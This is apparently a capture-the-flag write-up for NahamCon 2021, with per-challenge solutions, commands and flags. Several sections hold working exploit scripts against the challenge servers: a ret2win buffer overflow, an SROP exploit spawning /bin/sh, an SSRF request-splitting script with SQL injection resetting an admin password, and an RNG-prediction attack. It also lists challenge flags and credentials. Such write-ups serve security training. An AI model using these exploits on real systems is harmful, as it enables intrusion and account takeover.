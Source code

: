# NahamCon CTF

##Challenges

1. [Rules Source Code](#rules-source-code)
2. [Nahamcon2021](#nahamcon2021)
3. [Veebee](#veebee)
4. [Echo](#echo)
5. [Homeward Bound](#homeward-bound)
6. [Shoelaces](#shoelaces)
7. [Pollex](#pollex)
8. [Car Keys](#car-keys)
9. [Eighth Circle](#eighth-circle)
10. [Henpeck](#henpeck)
11. [Ret2basic](#ret2basic)
12. [The List](#the-list)
13. [Esab64](#esab64)
14. [Resourceful](#resourceful)
15. [Chicken Wings](#chicken-wings)
16. [Andra](#andra)
17. [Merch Store](#merch-store)
18. [Bad Blog](#bad-blog)
19. [Dice Roll](#dice-roll)
20. [Microscopium](#microscopium)
21. [Typewriter](#typewriter)
22. [Some-really-ordinary-program](#some-really-ordinary-program)
23. [Weather APP](#weather-app)
24. [Eaxy](#eaxy)
25. [Mission](#mission)
26. [Bionic](#bionic)
27. [Meet The Team](#meet-the-team)
28. [Gus](#gus)
29. [Hercules](#hercules)
30. [Lyra](#lyra)
31. [Orion](#orion)
32. [Leo](#leo)
33. [Hydraulic](#hydraulic)
34. [Banking On It](#banking-on-it)
35. [Internal](#internal)
36. [Degrade](#degrade)
37. [Centaurus](#centaurus)

#### Rules Source Code
<details><summary>Solution</summary>

Looking at the rules page source code
https://ctf.nahamcon.com/rules

![image](https://user-images.githubusercontent.com/1076452/111090411-65452a00-850e-11eb-943b-b20405467058.png)

```flag{90bc54705794a62015369fd8e86e557b}```

</details>

#### Nahamcon2021
<details><summary>Solution</summary>

https://twitter.com/NahamSec/status/1370077327082680321

![image](https://user-images.githubusercontent.com/1076452/111090516-bc4aff00-850e-11eb-9ec5-84700071e38d.png)

```flag{e36bc5a67dd2fe5f33b62123f78fbcef}```
</details>

#### Veebee
<details><summary>Solution</summary>

For this challenge, I used the tool VB Script Coders.exe
https://www.aldeid.com/wiki/Decode-VBE-script

![image](https://user-images.githubusercontent.com/1076452/111078386-de735b80-84d3-11eb-912b-a0be3716c787.png)

Clicked VBE-2-VBS button, selected the vbe file and the tool generated a file called "decoded.vbs". Looking at the "decoded.vbs" source code it was still encoded so changed the extension from .vba to .vbe and decoded it again.

![image](https://user-images.githubusercontent.com/1076452/111078404-f77c0c80-84d3-11eb-9234-6d43c5088ee0.png)

```flag{f805593d933f5433f2a04f082f400d8c}```
</details>

#### Echo

<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111018313-e7124780-8396-11eb-8fa1-b99817861f79.png)

![image](https://user-images.githubusercontent.com/1076452/111018299-d6fa6800-8396-11eb-8e52-279d10ecd11a.png)

![image](https://user-images.githubusercontent.com/1076452/111018288-cba73c80-8396-11eb-8d5b-53e1e3203942.png)

```flag{1beadaf44586ea4aba2ea9a00c5b6d91}```

</details>


#### Homeward Bound

<details><summary>Solution</summary>

When entering the website, it displayed a message "Sorry, this page is not accessible externally".
![image](https://user-images.githubusercontent.com/1076452/111000058-25d8db00-8360-11eb-9b99-3a045d6fd1f2.png)


Added "X-Fordered-For: 127.0.0.1" header (which is a common method for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or load balancer) and got the flag.
![image](https://user-images.githubusercontent.com/1076452/111000087-30937000-8360-11eb-998c-07f49f530a66.png)

```flag{26080a2216e95746ec3e932002b9baa4}```

</details>

#### Shoelaces
<details><summary>Solution</summary>

strings shoelaces.jpg | grep flag

```flag{137288e960a3ae9b148e8a7db16a69b0}```

</details>

#### Pollex
<details><summary>Solution</summary>

Using binwalk to extract all files from challenge file

```binwalk --dd='.*' pollex```

![image](https://user-images.githubusercontent.com/1076452/111015405-6435c080-8387-11eb-8b51-a97ce86ac290.png)

```flag{65c34a1ec121a286600ddd48fe36bc00}```
</details>

#### Car Keys
<details><summary>Solution</summary>

Using https://cryptii.com/ and alphabetical substitution with the encoded flag and the key (qwerty) obtained from challenge description.

![image](https://user-images.githubusercontent.com/1076452/111019745-e7631080-839f-11eb-9708-59de62d02bc9.png)

```flag{6f980c0101c8aa361977cac06508a3de}```
</details>

#### Eighth Circle
<details><summary>Solution</summary>

http://www.malbolge.doleczek.pl/

![image](https://user-images.githubusercontent.com/1076452/111020021-baaff880-83a1-11eb-8efd-e168fd0f6bdd.png)
</details>

#### Henpeck
<details><summary>Solution</summary>

```tshark -r ./henpeck.pcap -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata | sed 's/../:&/g2' > keyboards.txt```

https://github.com/TeamRocketIst/ctf-usb-keyboard-parser

```
python usbkeyboard.py keyboards.txt 
so the answer is flag{f7733e0093b7d281dd0a30fcf34a9634} hahahah lol
```
</details>

#### Ret2basic

<details><summary>Solution</summary>

```
#!/usr/bin/python
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./ret2basic')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./ret2basic', gdbscript=gs)
    if args.REMOTE:
        return remote('challenge.nahamcon.com', 30413)
    else:
        return process('./ret2basic')
r = start()
#========= exploit here ===================
win = 0x401215
#ret = 0x40133b
payload = "A" * 120
#payload += p64(ret)
payload += p64(win)
r.sendlineafter(": ",payload)

#========= interactive ====================
r.interactive()
```

![image](https://user-images.githubusercontent.com/1076452/111002592-810ccc80-8364-11eb-9f58-0ca4bb807ed0.png)


</details>

#### The List
<details><summary>Solution</summary>

```flag{0eb219803dbfcda8620dae0772ae2d72}```
</details>

#### esab64
<details><summary>Solution</summary>

cat esab64 | rev | base64 -d | rev

```flag{fb5211b498afe87b1bd0db601117e16e}```
</details>

#### Resourceful
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111007125-e1077100-836c-11eb-9a10-edb11904272d.png)

![image](https://user-images.githubusercontent.com/1076452/111007090-cf25ce00-836c-11eb-989e-3e9f1d579b6c.png)

![image](https://user-images.githubusercontent.com/1076452/111007110-da78f980-836c-11eb-9510-ce5ad11a8954.png)

```flag{7eecc051f5cb3a40cd6bda40de6eeb32}```
</details>

#### Chicken wings 
<details><summary>Solution</summary>

https://lingojam.com/WingDing

```flag{e0791ce68f718188c0378b1c0a3bdc9e}```
</details>

#### Andra
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111007452-a9e58f80-836d-11eb-8fcb-2b86f03bf057.png)

![image](https://user-images.githubusercontent.com/1076452/111007468-b2d66100-836d-11eb-91b5-ac0fed2e04a5.png)

![image](https://user-images.githubusercontent.com/1076452/111007499-b833ab80-836d-11eb-892e-e2854621be02.png)

```flag{d9f72316dbe7ceab0db10bed1a738482}```
</details>

#### Merch Store
<details><summary>Solution</summary>

Source code merch store

```flag{fafc10617631126361c693a2a3fce5a7} ```
</details>

#### Bad Blog
<details><summary>Solution</summary>

SQLi En user agent
![image](https://user-images.githubusercontent.com/1076452/111036069-1c9d4c00-83fc-11eb-8b89-be0cd7109da4.png)

![image](https://user-images.githubusercontent.com/1076452/111036081-2e7eef00-83fc-11eb-9070-ff2fe726a45b.png)

![image](https://user-images.githubusercontent.com/1076452/111036096-40609200-83fc-11eb-91ee-bece11537691.png)

![image](https://user-images.githubusercontent.com/1076452/111036157-8e759580-83fc-11eb-8e5d-18b9580a45c2.png)

![image](https://user-images.githubusercontent.com/1076452/111036146-8158a680-83fc-11eb-883a-568c950166ae.png)

![image](https://user-images.githubusercontent.com/1076452/111036109-4eaeae00-83fc-11eb-820f-9789a85bca4d.png)

```flag{8b31eecb1831ed594fa27ef5b431fe34}```
</details>

#### Dice Roll
<details><summary>Solution</summary>

```
#!/usr/bin/env python
from pwn import *
from randcrack import RandCrack

rc = RandCrack()
r = remote('challenge.nahamcon.com', 31784)

def roll():
    r.sendlineafter("> ","2")
    r.recvline()
    data = r.recvline()
    rc.submit(int(data))

def guess(num):
    print("Guessing the dice...")
    r.sendlineafter("> ","3")
    r.sendlineafter("> ","{}".format(num))
    data = r.recvline()
    print(data)
    r.recvline()
    data = r.recvline()
    print(data)

print("Getting data to make prediction...")
for i in range(624):
    roll()

num = rc.predict_getrandbits(32)
print("Predicted: {}".format(num))
guess(num)
```

![image](https://user-images.githubusercontent.com/1076452/111038864-db139d80-8409-11eb-9023-5fbcb952e2ea.png)

```flag{e915b62b2195d76bfddaac0160ed3194}```
</details>

#### Microscopium
<details><summary>Solution</summary>

React APP

![image](https://user-images.githubusercontent.com/1076452/111053514-29915e00-8443-11eb-9c2c-2f80fb1c2181.png)

```
apktool.jar d microscopium.apk
npx react-native-decompiler -i index.android.bundle -o ./output
```

![image](https://user-images.githubusercontent.com/1076452/111053531-4fb6fe00-8443-11eb-944f-2f67f8adf188.png)

Bruteforce PIN
```
const { Base64 } = require('js-base64');
const { sha256 } = require('js-sha256')

var cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=";
var partKey = 'pgJ2K9PMJFHqzMnqEgL';

var n = Base64.toUint8Array(cipher64);

for (pin = 0; pin <= 9999; pin++) {
    hash = sha256.create()
    hash.update(partKey);
    hash.update(String(pin));

    var u = ''
    for (var l = hash.hex(), c = 0; c < n.length; c++) {
        u += String.fromCharCode(n[c] ^ l.charCodeAt(c));
    }

    if (u.indexOf('flag{') != -1) {
        console.log("Pin: " + pin);
        break;
    }
}
console.log(u)
```
```
Pin: 4784
flag{06754e57e02b0c505149cd1055ba5e0b}
```
</details>

#### Typewriter
<details><summary>Solution</summary>

https://digital-forensics.sans.org/media/volatility-memory-forensics-cheat-sheet.pdf

```volatility imageinfo -f image.bin```

![image](https://user-images.githubusercontent.com/1076452/111054076-3ebcbb80-8448-11eb-80ff-bce10100edd7.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 cmdline```

![image](https://user-images.githubusercontent.com/1076452/111054089-5eec7a80-8448-11eb-83d7-1090de2c698d.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 filescan | grep .docx```

![image](https://user-images.githubusercontent.com/1076452/111054096-79beef00-8448-11eb-889a-bc721ae3a9c8.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000007eb665b8 -n --dump-dir=.```

![image](https://user-images.githubusercontent.com/1076452/111054105-8c392880-8448-11eb-84c0-c3c7f4d74426.png)

![image](https://user-images.githubusercontent.com/1076452/111054054-061ce200-8448-11eb-9a86-b5050475f6ce.png)

```flag{c442f9ee67c7ab471bb5643a9346cf5e}```
</details>

#### some-really-ordinary-program
<details><summary>Solution</summary>

```
#!/usr/bin/env python3
from pwn import *
import sys
import subprocess

context(terminal=['tmux', 'new-window'])
context(os="linux", arch="amd64")

p_name = "./some-really-ordinary-program"  ## change for the challenge name
DEBUG = 0
context.log_level = "debug"

if DEBUG:
    
    p = process(p_name)         ## Start the new process
    gdb_command = '''b * 0x401056'''.split('\n')    ## The command that will run gdb at startup
    attach_command = "tmux new-window gdb {} {} ".format(p_name,p.pid)
    for k in gdb_command:
        attach_command += '''--eval-command="{}" '''.format(k)
    log.debug("Starting a new gdb session with the following command: {}".format(attach_command))
    subprocess.Popen(attach_command, shell=True, stdin=subprocess.PIPE)
else:
    p = remote("challenge.nahamcon.com", 32119)
## everything goes here

####    ADDRESSES  ####

call_read = p64(0x401000)
syscall_ret = p64(0x40100e)   #   syscall; ret
sub_rsp = p64(0x401026)
push_rbp = p64(0x401022)
main = p64(0x401022)

call_read_p3 = p64(0x401006)

bss = 0x0000000000402000 
####               ####
####    FUNCTIONS  ####
####               ####

input("Send first payload ? ")

frame_mprotect = SigreturnFrame()

frame_mprotect.rax = 0xa
frame_mprotect.rdi = 0x0000000000400000
frame_mprotect.rsi = 0x1000
frame_mprotect.rdx = 0x7
frame_mprotect.rsp = 0x400088
frame_mprotect.rip = u64(syscall_ret)

# Make the bss writable and executable

payload = b''
payload += b'A' * 508
payload += push_rbp
#payload += call_read
payload += syscall_ret
payload += bytes(frame_mprotect)
payload += b'B' * 8
payload += b'C' * 8

p.sendline(payload)

input("Send second payload ? ")

p.sendline(b'F' * (0xf-1) )

input("Send third payload ? ")
payload = b''
payload += b'\x31\xc0\x50\x48\x31\xff\x48\xc7\xc0\x3b\x00\x00\x00\x48\xc7\xc7\x88\x00\x40\x00\x48\x31\xf6\x48\x31\xd2\x0f\x05'

'''
rasm2 -b 64 'xor eax, eax 
push eax
xor rdi, rdi
mov rax, 0x3b
mov rdi, 0x400088
xor rsi, rsi
quote> xor rdx, rdx
quote> syscall'
'''

payload += b'A' * (144 - len(payload) - len(b'/bin/sh\x00'))   #   Reach the place on the bss where the RSP is placed to overwrite the return address
payload += b'/bin/sh\x00'
payload += p64(0x400000) #   return to the shellcode, since we have the bss executable now
p.sendline(payload)

p.interactive()
```
```flag{175c051dbd3db6857f3e6d2907952c87}```
</details>

#### Weather APP
<details><summary>Solution</summary>

```
#!/usr/bin/python3

import requests
import sys
from requests.utils import requote_uri


if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <url>")
    exit(127)

headers = {
            "Host": "127.0.0.1"
        }

# problematic chars for nodejs 8.12 (https://jaeseokim.tistory.com/98)
SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

# base post data
post_payload = "username={}&password=bruh"

# sql payload to update admin pass
payload = "admin','bruh') ON CONFLICT(username) DO UPDATE SET password='bruh'; --"

# urlencoded sql payload
sql_payload = requote_uri(payload)

# insert payloads into base payloads and calc length
user_payload = post_payload.format(sql_payload)
l_payload = len(post_payload.format("")) + len(sql_payload)+10

# payload sent to /api/weather/ endpoint
base_payload = "127.0.0.1/test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF*2+"POST"+SPACE+SLASH+"register"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"CONTENT-TYPE:"+SPACE+"application"+SLASH+"x-www-form-urlencoded"+CRLF+"CONTENT-LENGTH:"+SPACE+str(l_payload)+CRLF*2+user_payload+CRLF*2+"GET"+SPACE+SLASH+"aaa#"

data = {"endpoint": base_payload,
        "city": "bruh_city",
        "country": "bruh country"
        }

# get url from cmdline arg
url = sys.argv[1]

res = requests.post(url, data, headers)
print(res.text)
```
```HTB{w3lc0m3_t0_th3_p1p3_dr34m}```
</details>

#### Eaxy
<details><summary>Solution</summary>

```
#!/usr/bin/env python3
import string
import re

charset = string.ascii_lowercase + string.digits + '{}'

def xor_strings(xs, ys):
    return "".join(chr(ord(x) ^ ord(y)) for x, y in zip(xs, ys))

flag = [' '] * 38
def brute(data,val):
    xord_byte_array = bytearray(len(data))
    for i in range(len(xord_byte_array)):
	    xord_byte_array[i] = data[i] ^ ord(val)
    d = xord_byte_array.decode('utf-8')

    if 'flag' in d:
        result = re.findall( r'is the (.*?) character',d)
        for r in result:
            flag[int(r)] = val

f = open('eaxy', 'rb')
data = bytearray(f.read())

for i in charset:
    brute(data,i)
print(''.join(flag))
```
```flag{16edfce5c12443b61828af6cab90dc79}```
</details>

## Mission
<details><summary>Solution</summary>

Source code

![image](https://user-images.githubusercontent.com/1076452/111015203-6ea38a80-8386-11eb-833a-647bffe6b2b6.png)

```flag{48e117a1464c3202714dc9a350533a59}```
</details>

### Bionic
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111012004-27170180-837a-11eb-8aa6-8f0434726b1b.png)
</details>

### Meet The Team
<details><summary>Solution</summary>

https://github.com/internetwache/GitTools

https://constellations.page/.git/

git show

![image](https://user-images.githubusercontent.com/1076452/111013989-719b7c80-8380-11eb-9d8b-719daeb8cbe1.png)

</details>

### Gus
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111011972-ffc03480-8379-11eb-8996-25197d69882c.png)

</details>

### Hercules
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111013207-5da24b80-837d-11eb-94b6-fa2ce6b44d39.png)
</details>

### Lyra
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111014284-c986b300-8381-11eb-86a2-847f0693ee78.png)

![image](https://user-images.githubusercontent.com/1076452/111014303-de634680-8381-11eb-85ee-3b94b44dac07.png)

![image](https://user-images.githubusercontent.com/1076452/111014312-ea4f0880-8381-11eb-9bfb-d8e0a0ae7060.png)
</details>

### Orion
<details><summary>Solution</summary>

https://twitter.com/OrionMorra/status/1363789936219082756

![image](https://user-images.githubusercontent.com/1076452/111014551-ea9bd380-8382-11eb-9418-a6b223bd1c13.png)
</details>

### Leo
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111017557-1c1c9b00-8393-11eb-8485-7011fa58aea8.png)

![image](https://user-images.githubusercontent.com/1076452/111017573-2b034d80-8393-11eb-996e-b7169e37a59f.png)

``` flag{636db5f4f0e36908a4f1a4edc5b0676e}  A password for Leo is `constelleorising` ```

</details>

### Sensible
<details><summary>Solution</summary>

Entrar con datos de leo -> leo:constelleorising

</details>

### Hydraulic
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111021178-5133e800-83a9-11eb-8fb5-8724f47169f7.png)

```[ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky```

![image](https://user-images.githubusercontent.com/1076452/111021210-8b9d8500-83a9-11eb-8aac-24088f8267f2.png)

```flag{cadbbfd75d2547700221f8c2588e026e}```
</details>

### Banking On It
<details><summary>Solution</summary>

Entrar con user gus e id_rsa

https://github.com/gusrodry/development/tree/master/config/.ssh
</details>

### Internal
<details><summary>Solution</summary>

</details>

### Degrade
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111021372-7a08ad00-83aa-11eb-80c7-5ecc86733971.png)
</details>

### Centaurus
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111052561-9d7b3880-843a-11eb-9c3e-7bd1e74b1e44.png)

![image](https://user-images.githubusercontent.com/1076452/111052567-b257cc00-843a-11eb-9555-6d4ad8dec3a2.png)

![image](https://user-images.githubusercontent.com/1076452/111052569-bd126100-843a-11eb-8e22-f329691d9a0e.png)

![image](https://user-images.githubusercontent.com/1076452/111052573-c7ccf600-843a-11eb-866f-9f8872ffbfd6.png)

```flag{4a8f943a965086945794066f7ce97f23}```
</details>

